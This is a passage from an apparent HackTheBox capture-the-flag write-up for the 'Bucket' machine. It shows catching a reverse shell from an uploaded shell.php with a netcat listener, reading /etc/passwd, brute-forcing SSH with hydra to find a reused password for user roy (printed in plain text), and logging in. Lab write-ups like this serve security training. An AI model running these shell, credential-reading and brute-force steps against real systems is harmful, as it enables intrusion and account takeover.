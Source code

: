 	`nc -nvlp 4141`

- **Third**, after sometime i go to `bucket.htb/shell.php` and shell pops in the netcat
- got `www-data` shell

## Enumerating www-data

`cat /etc/passwd`
```
#roy:x:1000:1000:,,,:/home/roy:/bin/bash
```

- don't find any thing in the `www-data`
- only get the user `roy`
- I check if user `roy` can has ssh enable

	`ssh roy@10.10.10.212`

	  roy@10.10.10.212's password:   

- so roy has ssh enable
- i am thinking about bruteforcing ssh but first try to use creds that dumped from the database

	`hydra -l roy -P wordlist 10.10.10.212 -t 4 ssh`

	  Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-04 10:19:34
	  [DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
	  [DATA] attacking ssh://10.10.10.212:22/
	  [22][ssh] host: 10.10.10.212   login: roy   password: n2vM-<_K_Q:.Aa2
	  1 of 1 target successfully completed, 1 valid password found
	  Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-04 10:19:42

- found reused password `n2vM-<_K_Q:.Aa2`

### creds

`roy:n2vM-<_K_Q:.Aa2`

## ssh roy

`ssh roy@10.10.10.212`
```bash
roy@10.10.10.212's password: n2vM-<_K_Q:.Aa2
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-48-generic x86_64)
roy@bucket:~$ cat user.txt
dd3f563b************************
```

## Enumerate user roy

- check network

	`roy@bucket:~$ ss -lnpt`

	  State     Recv-Q    Send-Q         Local Address:Port          Peer Address:Port               
	  LISTEN    0         511                127.0.0.1:8000               0.0.0.0:*
